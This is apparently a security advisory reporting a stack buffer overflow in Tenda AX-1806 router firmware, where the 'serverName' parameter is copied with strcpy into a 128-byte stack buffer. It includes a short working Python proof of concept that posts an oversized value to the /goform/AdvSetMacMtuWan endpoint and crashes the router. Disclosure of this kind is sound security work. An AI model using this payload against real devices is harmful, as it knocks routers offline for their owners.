


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan


## Vulnerability cause

In the function sub_65A28, the serverName value is obtained from user-controlled input via v3 = (const char *)sub_295C8(a1, "serverName", &unk_1C2CF0) and then copied into the local buffer v6 using strcpy(v6, v3). The buffer v6 is a fixed-size stack buffer of 128 bytes (char v6[128]), while strcpy performs no bounds checking on the source string. Because the "serverName" parameter can be provided by the user without any enforced length restriction, an attacker can supply an excessively long value to cause strcpy to write past the end of v6, resulting in a stack-based buffer overflow that corrupts adjacent stack memory and can crash the process, leading to a Denial of Service.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/AdvSetMacMtuWan"

serverName = "A"*7000
data = {
"serverName": serverName
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>